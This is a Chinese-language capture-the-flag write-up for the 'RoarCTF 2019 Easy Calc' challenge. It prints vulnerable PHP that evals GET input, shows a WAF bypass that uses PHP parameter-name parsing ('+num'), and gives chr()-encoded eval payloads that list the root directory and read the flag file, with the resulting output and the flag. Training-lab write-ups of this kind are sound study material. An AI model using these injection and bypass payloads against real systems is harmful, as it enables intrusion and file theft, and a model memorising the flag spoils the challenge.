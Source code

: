 ```yaml
---
tags:
  - BuuCTF
  - 简单
  - PHP
  - WAF
  - 字符串解析
---
```


# \[RoarCTF 2019\] Easy Calc

## 前置工作

进入靶机网页，随便测试一下，就发现一般的手段行不通了

![](https://p.sda1.dev/13/06513b02569849d88f42b0a62277f0b6/image.png)

打开 F12 看源码，发现他已经使用了 WAF（但是这个 WAF 策略我们是无从得知的），以及下面有一个 Ajax 使用 GET 请求将参数 `num` 给到了 `calc.php`

![](https://p.sda1.dev/13/2172087003d37976776f72fdb21a1fba/image.png)

我们进入 `/calc.php`，发现下面的源代码，仔细阅读下就能发现我们输入数据的黑名单，但现在首要目的是先绕过 WAF 的限制，使得我们传入的 `num` 参数能进入这个 PHP 代码中被执行

```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?>
```

## WAF 绕过

我从 [FreeBuf](https://www.freebuf.com/articles/web/213359.html) 上找来了两张图片，可以说明 PHP 对传入参数的处理是怎么样的

![](https://p.sda1.dev/13/05736632a670e277acba2c1d82e15c95/image.png)

![](https://p.sda1.dev/13/53ed3879e34ebb48992e0d9cb0d1209b/image.png)

通过以上解释，我们就能尝试着绕过 WAF 的判断了，我们可以把传入的参数 `num` 改成 `+num`，因为这个 `+` 到 PHP 解析的时候就会被省略掉，到头来还是 `num`，但是对于 WAF 就不一样了，他只会觉得我们没有给 WAF 提供 `num` 参数，于是就很轻松地绕过了 WAF 的判断，现在，我们已经可以向 `num` 传入字符了

## 黑名单绕过

查看 `$blacklist` 数组，发现想绕过的话，一般的方法都用不了，我们通常都用 `system("ls /")` 来查看当前目录下的文件，但是使用 `system("ls /")` 就会直接触发黑名单，因为又有空格，又有引号，那么我们只能使用另外的方法了

### 扫描目录

直接说答案 **`+num=var_dump(scandir(chr(47)))`**，`chr(47)` 即 `/`，`scandir()` 就是扫描当前目录，`var_dump()` 就是调试模式输出内容（与 `echo` 单纯的打印字符串不同，`var_dump()` 可以打印变量信息），将 `+num=var_dump(scandir(chr(47)))` 传入后可看到以下内容，发现有一个 `f1agg` 文件

```
array(24) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(10) ".dockerenv" [3]=> string(3) "bin" [4]=> string(4) "boot" [5]=> string(3) "dev" [6]=> string(3) "etc" [7]=> string(5) "f1agg" [8]=> string(4) "home" [9]=> string(3) "lib" [10]=> string(5) "lib64" [11]=> string(5) "media" [12]=> string(3) "mnt" [13]=> string(3) "opt" [14]=> string(4) "proc" [15]=> string(4) "root" [16]=> string(3) "run" [17]=> string(4) "sbin" [18]=> string(3) "srv" [19]=> string(8) "start.sh" [20]=> string(3) "sys" [21]=> string(3) "tmp" [22]=> string(3) "usr" [23]=> string(3) "var" }
```

### 阅读文件

阅读文件的时候也需要使用特殊的方法，毕竟我们对引号和空格没有使用权，那么我们就使用老方法，先说答案 **`+num=file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103))`**，其中 `chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)` = `/f1agg`，`file_get_contents()` 就是从某个文件中阅读内容并输出，最后即可得出 Flag 为 `flag{9b928004-5776-4b60-bbb9-d32152c62db7}`
